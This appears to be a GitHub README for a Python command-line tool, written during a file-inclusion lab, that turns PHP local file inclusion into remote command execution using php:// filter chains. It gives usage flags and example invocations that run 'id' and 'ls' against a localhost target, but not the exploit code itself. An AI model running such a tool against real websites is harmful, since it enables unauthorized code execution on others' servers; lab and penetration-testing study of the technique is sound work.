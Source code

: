 # PHPLFI2RCE

I wrote this while doing a LFI lab. It is based on https://book.hacktricks.xyz/pentesting-web/file-inclusion/lfi2rce-via-php-filters#full-script

I just made it usable via cli, just because who knows one day I might need it...

# Usage

```
args:
        -u <url>
        -c <command to issue>
optional:
        -f <file to use (default php://temp)>
        -P <proxy (http,http://localhost:8080)>]
```

## Examples

If the LFI is on the parameter "file", in a URL such as in http://127.0.0.1/index.php?file=<LFI HERE>, and you want to issue the command "id":


```
python3 phplfi2rce.py -u http://127.0.0.1/index.php -p file -c id
```

Add proxies if you need


```
python3 phplfi2rce.py -u http://127.0.0.1/index.php -p file -c 'ls -lah /opt' -P http,http://localhost:8080

```

Finally, you can use a different php:// file, the default is php://temp. Just use the -f parameter.

# Notes

This works only with GET parameters. If you need POST you'll need to modify the code. I'm too lazy to do it now.
